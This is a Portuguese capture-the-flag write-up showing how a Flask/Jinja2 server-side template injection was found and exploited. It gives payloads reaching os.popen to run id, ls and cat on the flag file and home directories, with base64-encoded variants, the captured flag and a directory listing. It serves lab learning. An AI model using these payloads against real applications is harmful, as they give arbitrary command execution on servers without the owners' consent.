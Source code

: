 `{{7*7}}`:703b179695b26fc01e4b18e3e605de2a (hash MD5 admin)
(base64) -> e3s3Kjd9fTo3MDNiMTc5Njk1YjI2ZmMwMWU0YjE4ZTNlNjA1ZGUyYQ==
![[ssti.png]]


https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#python
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://github.com/payloadbox/ssti-payloads

Tentando alguns payloads chegamos a:
`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`:703b179695b26fc01e4b18e3e605de2a (hash MD5 admin)
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdpZCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
![[ssti_id.png]]

`{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscycpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh 
![[ssti_ls.png]]

`{{config.__class__.__init__.__globals__['os'].popen('cat ./flag.txt').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdjYXQgLi9mbGFnLnR4dCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
![[ssti_cat.png]]

QUACK{W17h_5571_RC3_15_v3ry_51mpl3}

## **Task Linux - Duck**
Você tem o suficiente para acessar o servidor!
### **Solução**
`{{config.__class__.__init__.__globals__['os'].popen('ls /home').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAvaG9tZScpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
![[ssti_ls2.png]]

`{{config.__class__.__init__.__globals__['os'].popen('ls -lah /home/duck').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAtbGFoIC9ob21lL2R1Y2snKS5yZWFkKCl9fTo3MDNiMTc5Njk1YjI2ZmMwMWU0YjE4ZTNlNjA1ZGUyYQ==
![[ssti_ls3.png]]
Organizado:
total 100K 
drwxr-xr-x 8 duck duck 4.0K Aug 22 17:49 . 
drwxr-xr-x 4 root root 4.0K Aug 14 08:48 .. 
drwxr-xr-x 2 root root 4.0K Aug 22 17:46 .bash_history 
-rw-r--r-- 1 duck duck 220 Aug 14 08:48 .bash_logout 
-rw-r--r-- 1 duck duck 3.7K Aug 22 17:49 .bashrc 
drwxrwxr-x 3 duck duck 4.0K Aug 21 23:59 .cache 
drwx------ 3 duck duck 4.0K Aug 21 20:35 .config 
-rw------- 1 duck duck 20 Aug 22 04:07 .lesshst 
drwxrwxr-x 3 duck duck 4.0K Aug 21 20:45 .local 
drwxrwxr-x 2 duck duck 4.0K Aug 14 09:14 manutencao 
-rw-r--r-- 1 duck duck 807 Aug 14 08:48 .profile 
drwx------ 2 duck duck 4.0K Aug 14 08:50 .ssh 
-rw-rw-r-- 1 root root 27 Aug 22 00:37 wtduck.txt 
-rw-rw-r-- 1 duck duck 48K Aug 22 17:48 .zcompdump
